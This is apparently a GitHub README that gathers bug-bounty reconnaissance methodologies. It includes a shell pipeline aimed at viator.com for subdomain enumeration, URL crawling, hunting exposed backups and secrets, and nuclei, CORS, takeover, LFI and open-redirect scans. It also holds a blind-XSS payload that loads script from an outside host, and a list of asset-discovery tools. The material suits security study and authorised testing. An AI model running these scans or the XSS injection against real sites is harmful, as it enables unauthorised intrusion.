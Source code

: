 # Bug-Hunting-methodologies
this repo contains some public methodologies which I found from internet (google,telegram,discord,writeups etc..) 

# Help to Improve repo
If you found any methodologies please add a pull request so I can merge that and update the repo :D

# 1
```
subfinder -d viator.com -all  -recursive > subdomain.txt

cat subdomain.txt | httpx-toolkit -ports 80,443,8080,8000,8888 -threads 200 > subdomains_alive.txt

katana -u subdomains_alive.txt -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -kf -jc -fx -ef woff,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt

cat allurls.txt | grep -E "\.txt|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.json|\.gz|\.rar|\.zip|\.config"

cat allurls.txt | grep -E "\.js$" >> js.txt

cat alljs.txt | nuclei -t /home/coffinxp/nuclei-templates/http/exposures/ 

echo www.viator.com | katana -ps | grep -E "\.js$" | nuclei -t /home/coffinxp/nuclei-templates/http/exposures/ -c 30

dirsearch  -u https://www.viator.com -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,http://sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js.,.json

subfinder -d viator.com | httpx-toolkit -silent |  katana -ps -f qurl | gf xss | bxss -appendMode -payload '"><script src=https://xss.report/c/coffinxp></script>' -parameters

subzy run --targets subdomains.txt --concurrency 100 --hide_fails --verify_ssl

python3 corsy.py -i /home/coffinxp/vaitor/subdomains_alive.txt -t 10 --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"

nuclei -list subdomains_alive.txt -t /home/coffinxp/Priv8-Nuclei/cors

nuclei  -list ~/vaitor/subdomains_alive.txt -tags cves,osint,tech

cat allurls.txt | gf lfi | nuclei -tags lfi
cat allurls.txt | gf redirect | openredirex -p /home/coffinxp/openRedirect
```

---

# 2 [ref](https://github.com/RemmyNine/BBH-Recon)

- [Wide Recon](#WideRecon)
    - [Subdomain Enumerating](#Subdomain_Enumerating)
        - [Subfinder](https://github.com/projectdiscovery/subfinder) - GOAT, Config before you use it. Run it using `subfinder -dL target.txt -all -recursive -o output`
        - [BBot](https://github.com/blacklanternsecurity/bbot) - An alternative to subfinder.
        - [DNSDumpster](https://dnsdumpster.com/)
        - [crtSh Postgress DB](https://github.com/RemmyNine/Methodology/blob/main/crtsh.sh) -- Connect to pqdb and extract subdomains. Also manually use this website for some validations.
        - [AbuseIPDB](https://github.com/atxiii/small-tools-for-hunters/tree/main/abuse-ip) -- Use Atxii Script.
        - Favicon Hash -- Search the hash in Shodan --> Write a script to calculate the mm3 hash and search it in shodan.io
        - [Gau](https://github.com/lc/gau) --  `gau --subs example.com | unfurl -u domain | tee >> subs.txt`
        - [Waybackurls](https://github.com/tomnomnom/waybackurls) -- `echo domain.com | waybackurls | unfurl -u domains |‌ tee >> wbuRes.txt`
        - Host Header fuzzing on IP + URL.tld -> `fuf -w wordlist.txt -u "https://domaint.tld" -H "host: FUZZ" -H '### Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 Edg/125.0.0.0`
        - PTR Record from IP
        - Scan ports 80, 443, and 8080 on the target IP address to discover new URLs.
        - Reverse DNS lookup
        - [Adtracker](https://github.com/dhn/udon) -- Use Udon, [BuiltWith](https://builtwith.com/) to use same Ad ID to search for similar domains/subdomains.
      - [DNS BureForce](#DnsBF)
          - [PureDNS](https://github.com/d3mondev/puredns) --> Do a static DNS bruteforce with multiple worldlist. Assetnote, all.txt by JHaddix and SecLists are good options.
          - [Gotator](https://github.com/Josue87/gotator) and [DNSGen](https://github.com/AlephNullSK/dnsgen) --> This gonna be a second-time/dynamic DNS bruteforce using permutation. *DO NOT SKIP THIS PART*
- [Asset Discovery](#AssetDiscovery)
    - Find ASNs + CIDRs + IP, NameServers --> PortScan + Reverse DNS Lookup
    - Unqiue Strings, Copyrights.
    - Find new assets on news, Stock market, Partners, about us.
    - Find new assets on crunchbase and similar websites.
    - Emails --> Reverse email lookup
    - MailServers + Certificate --> Reverse MX + SSL Search (For SSL use crtsh)
    - Search on different search engines (Google, Bing, Yandex)
    - Google Dorks (acquired by company, company. All Rights Reserved., © 2021 company. All Rights Reserved., company. All Rights Reserved." -inurl:company, acquired by target. target subsidiaries)
    - Search SSL on Shodan, FOFA and Censys.
    - Find same DMARC Information [DMARC Live](https://dmarc.live/info/yahoo.com)
